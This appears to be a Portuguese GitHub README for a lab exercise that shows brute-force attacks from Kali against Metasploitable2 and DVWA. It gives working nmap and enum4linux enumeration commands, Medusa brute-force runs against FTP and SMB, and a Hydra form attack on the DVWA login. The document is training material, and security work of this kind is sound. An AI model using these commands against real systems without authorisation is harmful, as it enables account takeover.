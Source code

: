 
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"

Imagens do Projeto

<div style="display: flex; gap: 10px;">
  <img src="./imagem1.PNG" alt="Página Inicial" width="170" height="auto">
  <img src="./imagem2.PNG" alt="Página Inicial" width="170" height="auto">
  <img src="./imagem3.PNG" alt="Página Inicial" width="170" height="auto">
  <img src="./imagem4.PNG" alt="Página Inicial" width="170" height="auto">
  <img src="./imagem5.PNG" alt="Página Inicial" width="170" height="auto">
  
</div>




